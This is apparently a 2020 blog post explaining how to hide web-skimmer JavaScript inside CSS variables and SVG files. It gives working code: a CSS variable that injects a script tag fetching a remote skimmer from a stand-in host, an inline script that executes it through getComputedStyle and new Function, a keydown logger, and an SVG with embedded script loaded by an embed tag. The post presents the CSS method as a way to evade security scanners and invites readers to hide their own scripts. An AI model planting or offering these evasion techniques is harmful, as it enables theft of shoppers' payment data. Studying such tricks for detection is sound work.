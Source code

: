```yaml
---
sidebar_position: 21
---
```


# Executing Web Skimmers Inside CSS and SVG files

A web skimmer is a piece of malicious JS code embedded in web payment pages to skim customer’s payment information. There are a few tricks to embed malicious scripts. In this post, we’ll discuss how it can be done in CSS file and SVG file as well as what works and what doesn’t.

Embedding script in CSS

It is a new and interesting way to inject a script into the page from CSS. We can take advantage of CSS variables. In short, we will have a JS code to pull an external js file as a CSS variable and another small piece of JS to execute this JS code disguised as the variable. Web security tools usually scan JS code, not CSS. This method is more likely to go undetected.

We first define a global CSS variable to create a script tag that pulls the script. Then, you can inject another script to execute the variable through getComputedStyle.

Global Css file with Css variable to pull a skimmer.

```css
:root {
  --script: setTimeout(
    function() {var head=document.getElementById("test") ; var script =
      document.createElement("script") ; script.src= "https://my.skimmer.com/js/web-skimmer/test2.js"
      ; head.appendChild(script) ;},
    2000
  );
}
```

This code can be embedded in another JavaScript. It executes the script in the CSS variable to the page.

```html
<script type="text/javascript">
  new Function(
    getComputedStyle(document.documentElement)?.getPropertyValue("--script")
  )();
</script>
```

Inside the source file, we can go nuts! `web-skimmer/test2.js`

```js
window.addEventListener('DOMContentLoaded', () => {
  console.log('Skimmer in CSS executed');
  document.documentElement.addEventListener('keydown',function(e){
  console.log('Logging key from svg!');
  console.log(e.keyCode);
});
```

Embedding script in SVG

This one is a more classic way of embedding a malicious script. SVG is basically XML, which means you can add a script tag and wrap the code with CDATA. You can inject the file to the page through an embed tag.

Note that this doesn’t work with an img tag, a CSS background-image url or link tag as a favicon. When SVG is used in an image context, the browser emulates a raster image that is not scriptable.

Script can be added to the svg file. This has JS code, but it can be just pulled from somewhere as in the example above.

```svg
<svg version="1.1" xmlns="http://www.w3.org/2000/svg" height="210" width="500">
  <polygon
    points="100,10 40,198 190,78 10,78 160,198"
    style="fill:lime;stroke:purple;stroke-width:5;fill-rule:nonzero;"
  />
  <script type="text/javascript">
    <![CDATA[ window.addEventListener('DOMContentLoaded', () => {
    console.log('JS in SVG file executed');
    document.documentElement.addEventListener('keydown',function(e){
    console.log('Logging key from svg!'); console.log(e.keyCode); }); }) ]]>
  </script>
</svg>
```

Then, inject it through an embed tag.

```html
<embed src="img/web-skimmer/star.svg" alt="star" type="image/svg+xml" />
```

It doesn't work as CSS background, img tag or favicon link.

```css
.load-js {
  background-image: url("../../js/web-skimmer/star.js");
}
```

```html
<head>
  <link rel="icon" href="img/web-skimmer/favicon.svg" />
</head>
<body>
  <img src="img/web-skimmer/star.svg" alt="star" type="image/svg+xml" />
</body>
```

That’s it. If you are interested, I recommend you to try it out by yourself and see how easy it is to hide your script.

(2020-12-23)
